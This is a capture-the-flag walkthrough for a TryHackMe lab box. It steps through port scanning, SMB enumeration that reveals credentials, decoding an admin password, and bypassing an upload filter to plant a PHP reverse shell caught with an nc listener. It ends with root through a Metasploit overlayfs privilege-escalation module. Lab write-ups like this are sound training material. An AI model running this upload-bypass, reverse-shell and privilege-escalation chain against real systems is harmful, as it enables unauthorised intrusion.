```yaml
---

title: Walkthrough - Tech_Supp0rt 1
published: true
---
```


RCE, File Upload, sudo, custom. Hacking into a scammer's under-development website to foil their plans.

[https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)

* * *

## Notes

- ``sudo nmap -sC -sV -sT -O -p22,80,139,445 10.10.65.37``

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2.0
OS details: Linux 3.2.0
Network Distance: 4 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-08-07T20:57:51
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-08-08T02:27:51+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
```

We find a few directories with gobuster ``/test``, which is the site the scammer points their victims to, and a ``/wordpress`` site.

- ``smbclient -L`` and checking ``websvr`` we find ``enter.txt`` with some creds

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

It is missing the wordpress creds though.

Checking ``/wp-login.php`` and the blog posts on the website we find a username ``support``

lets check out /subrion

- ``gobuster dir -u http://10.10.249.90/subrion -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 100 --no-error -b 301,302,404``

- end up finding the panel @ ``http://techsupport.thm/subrion/panel.php`` but we have to get the magical formula for the password. I am assuming this is "cooked" with cyberchef

![](/assets/techsupp0rt1-01.png)

- now we have creds ``admin:Scam2021``
- nagivate to uploads and upload a revshell. since .htaccess disallowes certain file extensions we are using a pentestmoney php rev shell that has the ``.phar`` file extension.
- one uploaded visit ``http://techsupport.thm/subrion/uploads/shell.phar`` after setting up listener ``rlwrap nc -lvnp 6666``

- found some things running linpeas.sh

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php                                                                                     
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
```

```
#   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.16 is a vulnerable build.
```


* * * 

## What is the root flag?

- ``linux/local/cve_2021_3493_overlayfs`` in msfconsole and cat root.txt

* * * 

